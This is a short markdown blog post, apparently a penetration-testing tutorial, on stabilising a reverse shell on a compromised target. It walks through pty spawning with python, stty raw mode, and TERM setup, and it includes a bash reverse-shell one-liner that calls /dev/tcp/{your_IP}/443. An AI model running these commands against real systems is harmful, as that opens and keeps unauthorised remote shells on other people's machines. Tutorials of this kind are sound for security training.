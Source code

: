 ```yaml
---
layout: single
title:  "Upgrading your reverse shell"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
    teaser: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

Assuming you are running bash, in your reverse shell:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
Press on your keyboard: `Enter` (twice)

In the reverse shell:
```
export TERM=xterm
```

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!